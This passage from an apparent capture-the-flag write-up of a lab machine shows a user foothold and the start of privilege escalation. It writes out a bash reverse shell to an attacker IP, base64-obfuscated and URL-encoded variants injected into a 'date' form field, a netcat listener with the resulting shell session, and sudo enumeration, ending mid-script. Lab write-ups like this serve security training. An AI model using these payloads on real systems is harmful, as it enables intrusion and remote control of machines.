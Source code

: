 Revshell and we have our user.

```bash
bash -i >& /dev/tcp/10.10.14.5/7777 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Lzc3NzcgMD4mMQ==

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Lzc3NzcgMD4mMQ==' | base64 -d | bash

date=1`echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC41Lzc3NzcgMD4mMQ%3d%3d'+|+base64+-d+|+bash`
```

```bash
nc -vnlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.8 45906
bash: cannot set terminal process group (1359): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ cd ~
cd ~
dvir@headless:~$ ls
ls
app
geckodriver.log
user.txt
dvir@headless:~$ cat user.txt
cat user.txt
d031f24e9a----------------------
```

# Root

Common enum gave me the next trajectory with sudo l.

```bash
dvir@headless:~$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```bash
dvir@headless:~$ file /usr/bin/syscheck
file /usr/bin/syscheck
/usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
dvir@headless:~$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
```